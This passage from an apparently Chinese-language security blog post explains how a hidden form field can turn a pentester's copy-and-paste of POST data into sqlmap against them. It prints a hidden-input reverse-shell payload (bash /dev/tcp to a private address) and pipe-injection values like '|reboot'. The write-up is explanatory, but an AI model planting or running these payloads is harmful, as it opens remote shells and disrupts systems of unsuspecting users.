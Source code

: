     <input type='hidden' name='name'value='Robin&id=4567&command=shell`bash -i >&/dev/tcp/192.168.xxx.xxx/2333 0>&1`&port=1234'/>
    
    <input type="button"onclick="myForm.submit()" value="Submit">
    
    </form>
    
    </body>
    
    </html>

访问该页面，进行查询时，发送到请求为：

![](https://gitee.com/fuli009/images/raw/master/public/20210805091134.png)

这时，很多没有经验的安全渗透人员就可能将postdata，复制，粘贴，sqlmap执行之：

Boom！

## Par3：换个姿势，再来一遍

前两拍，为了所谓的神秘感，利用人们不常用的bash特性，强行装了一波。

但是，既然利用场景是：

    
    
    bash# exec "evil code"

那么事情可能会变得更加简单。

使用过Linux的，大多数都用到过管道(|)，而这个功能，能更好好的完成任务。

如果注入参数是：

    
    
    "|reboot" (参数中包含双引号)

那么执行的命令则为：

    
    
    bash# exec ""|reboot""

以上，我都假设的是，渗透人员将参数放入到双引号(“)中。但使用管道，单引号的问题也迎刃而解

针对单引号，可以将注入参数设置为：

    
    
    '|reboot'

Double Kill！

## Par4：尾声

以上都是我在测试一个网站时，其cookie中包含了

    
    
    "!+number"

导致了sqlmap语句的执行错误引起的。于是乎，深入追踪了下，发现其实主要原因属于bash的特性。如果利用这个特性做恶，的确存在一定的安全风险。
